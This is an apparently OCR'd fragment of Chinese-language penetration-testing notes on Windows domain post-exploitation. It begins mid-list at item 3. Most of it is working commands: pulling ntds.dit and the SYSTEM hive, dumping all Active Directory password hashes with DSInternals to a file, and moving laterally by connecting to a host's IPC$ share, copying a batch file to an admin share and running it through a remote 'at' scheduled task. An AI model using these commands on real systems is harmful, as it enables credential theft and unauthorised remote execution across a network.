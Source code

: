 3、bitsadmin win03 测试没有, win08 有

```
$PSVersionTable.PSVersion
看第一个Major
或者
Get-Host | Select-Object Version
```

```
ntds.dit(vshadow获取)
system(reg获取)
```

4、文件共享 映射了一个，结果没有权限写

```
允许执行脚本：
Set-ExecutionPolicy Unrestricted

导入模块(测试是win2012\_powershell ver4.0)：
Import-Module .\\DSInternals
(powershell ver5.0)
Install-Module DSInternals

分析hash,并导出到当前目录的hash.txt文件中
1、$key = Get-BootKey -SystemHivePath 'C:\\Users\\administrator\\Desktop\\SYSTEM'
2、Get-ADDBAccount -All -DBPath 'C:\\Users\\administrator\\Desktop\\ntds.dit' -BootKey $key | Out-File hash.txt
```

```
1、进行一个连接
net use \\\\10.10.24.44\\ipc$ 密码 /user:账号

2、复制本地文件到10.10.24.44的share共享目录(一般是放入admin$这个共享地方(也就是c:\\winnt\\system32\\)，或者c$，d$)
copy 4.bat \\\\10.10.24.44\\share

3、查看10.10.24.44服务器的时间
net time \\\\10.10.24.44

4、添加at任务执行
at \\\\10.10.24.44 6:21 \\\\10.10.24.44\\share\\4.bat
这个6:21指的是上午的时间，如果想添加下午的，则是6.21PM

5、查看添加的所有at任务列表(如果执行了得，就不会显示)
at \\\\10.10.24.44
```

```
查看所有连接
net use
删除连接
net use \\\\10.10.24.44\\share /del

映射共享磁盘到本地
net use z: \\\\IP\\c$ "密码" /user:"用户名"
删除共享映射
net use c: /del
net use \* /del
```
